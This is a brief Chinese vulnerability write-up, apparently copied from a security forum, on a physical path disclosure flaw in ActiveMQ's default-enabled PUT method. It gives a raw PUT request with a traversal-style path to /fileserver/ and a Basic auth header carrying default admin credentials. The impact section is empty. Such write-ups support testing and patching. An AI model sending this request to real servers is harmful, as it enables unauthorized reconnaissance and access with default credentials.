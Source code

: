 # ActiveMQ物理路径泄漏漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2798](https://www.zhihuifly.com/t/topic/2798)

# ActiveMQ物理路径泄漏漏洞

## 一、漏洞简介

ActiveMQ默认开启PUT请求，当开启PUT时，构造好Payload(即不存在的目录)，Response会返回相应的物理路径信息

## 二、漏洞影响

## 三、复现过程

```
Request Raw:
PUT /fileserver/a../..//.././ HTTP/1.1
Host: 192.168.197.25:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 4 
```